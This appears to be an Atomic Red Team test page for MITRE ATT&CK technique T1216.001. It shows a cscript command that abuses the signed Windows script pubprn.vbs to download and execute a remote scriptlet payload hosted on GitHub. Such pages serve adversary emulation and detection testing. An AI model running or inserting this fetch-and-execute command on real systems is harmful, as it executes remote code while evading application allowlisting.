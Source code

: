 ```yaml
---
tags: [T1216_001, atomic_test]
filename: "[[T1216.001|T1216.001 - Signed Script Proxy Execution: Pubprn]]"
---
```

# T1216.001 - Signed Script Proxy Execution: Pubprn

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


**auto_generated_guid:** 9dd29a1f-1e16-4862-be83-913b10a88f6c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>

